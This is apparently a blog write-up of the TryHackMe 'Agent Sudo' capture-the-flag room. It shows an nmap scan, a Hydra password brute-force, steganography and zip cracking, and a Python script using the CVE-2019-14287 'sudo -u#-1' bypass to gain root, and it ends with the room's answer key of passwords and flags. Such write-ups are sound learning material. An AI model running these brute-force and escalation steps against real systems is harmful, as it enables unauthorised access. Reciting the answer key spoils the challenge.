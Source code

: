 ```yaml
---
title: Agent Sudo
date: 2022-09-10 09:45:47 +07:00
modified: 2022-08-02 09:45:47 +07:00
tags: [CVE, Agent Sudo, TryHackMe, Writeup, CTF]
description: Write Up for TryHackMe room Agent Sudo
---
```


# Agent Sudo

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/logo.png)

Room Name → **Agent Sudo**

Room Link → [https://tryhackme.com/room/agentsudoctf](https://tryhackme.com/room/agentsudoctf)

Author → [DesKel](https://tryhackme.com/p/DesKel)

Description → You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth.

## Recon


I start port scanning with [Nmap]() to find existing ports and services.
`sudo nmap -sC -sV -oA nmap/agentsudo 10.10.133.149`
|Ports|Service|

|21|FTP (vsftpd 3.0.3)|

|22|SSH (OpenSSH 7.6p1|

|80|HTTP (Apache httpd 2.4.29|

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/1.png)

I checked website and wants me to change my user-agent

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/02.png)

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/2.png)

## Brute-Force

“25 employees” suggesting letters in the alphabet. So I have decided to brute force using all the letters.

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/2_1.png)
![](https://photos.squarezero.dev/file/abir-images/AgentSudo/2_2.png)

After changing my user name to “C” I got the following message.

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/2_3.png)

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/3.png)

Next, I decided to check out the FTP server. As I don’t have a password, I tried to brute-force using [Hydra]() and with [rockyou.txt]()

`hydra -t 3 -l chris -P /home/sz/Documents/rockyou.txt 10.10.133.149 ftp`

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/4.png)

I got the password to log in FTP.

After logging in I found two .png and one .txt file. After downloading them I checked out the message.

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/5.png)

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/5_1.png)

“stored in the fake picture” suggesting pictures are [Steganography]().

I brute-forced with [Stegcracker]() and found the following text

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/6.png)

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/7.png)

Not very useful. For the other picture, I used [binwalk]() to extract the files inside one of the images.

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/8.png)

I found a zip file and brute-force that with [John]()

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/9.png)

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/10.png)

Now I have the user and password to ssh.

After logging in ssh I found the user flag

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/11.png)

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/12.png)

## OSINT

Inside I found an image 

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/13_1.png)

After a simple google reverse image search, I found this article.

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/13.png)

## Privilege Escalation

After doing some basic enumeration I found a possible shell escaping way. 

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/14.png)

After doing some research I have found the following CVE.

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/15.png)

I made a python file with the following code. 

```python
#!/usr/bin/python3
import os
#Get current username
username = input("Enter current username :")
#check which binary the user can run with sudo
os.system("sudo -l > priv")
os.system("cat priv | grep 'ALL' | cut -d ')' -f 2 > binary")
binary_file = open("binary")
binary= binary_file.read()
#execute sudo exploit
print("Lets hope it works")
os.system("sudo -u#-1 "+ binary)
```

After executing the file I got root!

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/16.png)


 <a href='https://ko-fi.com/N4N64TH56' target='_blank'><img height='36' style='border:0px;height:36px;' src='https://cdn.ko-fi.com/cdn/kofi3.png?v=3' border='0' alt='Buy Me a Coffee at ko-fi.com' /></a>

***Q1. How many open ports?***

***A. 3***

***Q2. How you redirect yourself to a secret page?***

***A. user-agent***

***Q3. What is the agent name?***

***A. chris***

***Q4. FTP password***

***A. crystal***

***Q5. Zip file password***

***A. alien***

***Q6. steg password***

***A. Area51***

***Q7. Who is the other agent (in full name)?***

***A. james***

***Q8. SSH password***

***A. hackerrules!***

***Q9. What is the user flag?***

***A. b03d975e8c92a7c04146cfa7a5a313c7***

***Q10. What is the incident of the photo called?***

***A. Roswell alien autopsy***

***Q11. CVE number for the escalation***

***A. CVE-2019-14287***

***Q12. What is the root flag?***

***A. b53a02f55b57d4439e3341834d70c062***

***Q13. (Bonus) Who is Agent R?***

***A. DesKel***